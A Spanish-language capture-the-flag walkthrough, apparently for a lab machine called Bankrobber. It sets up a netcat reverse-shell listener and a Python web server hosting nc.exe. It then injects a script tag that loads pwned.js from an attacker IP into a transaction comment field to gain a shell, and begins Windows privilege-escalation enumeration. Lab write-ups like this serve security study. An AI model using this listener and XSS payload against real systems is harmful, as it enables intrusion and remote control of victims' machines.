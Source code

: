 1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos el nc.exe y creamos un servidor web con python

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    python3 -m http.server 80
    ```

1. Lanzamos una transaccion

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/pwned.js"></script>
    ```

Hemos ganado accesso a la maquina victima como el usuario cortin y podemos visualizar la flag.

```bash
whoami
bankrobber\cortin

type C:\Users\cortin\Desktop\user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
```

No tenemos privilegios interesantes como el **SeImpersonatePrivilege**, el **SeLoadPrivilege** o el **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

```bash
cd C:\Users\Administrator
cd C:\
netstat -nat
```

Aqui vemos un ejecutable llamado `bankv2.exe`. En este caso no lo vamos a analyzar. El **netstat** nos muestra un puerto **910** que no hemos visto
con nmap.

```bash
netstat -ano
tasklist
```
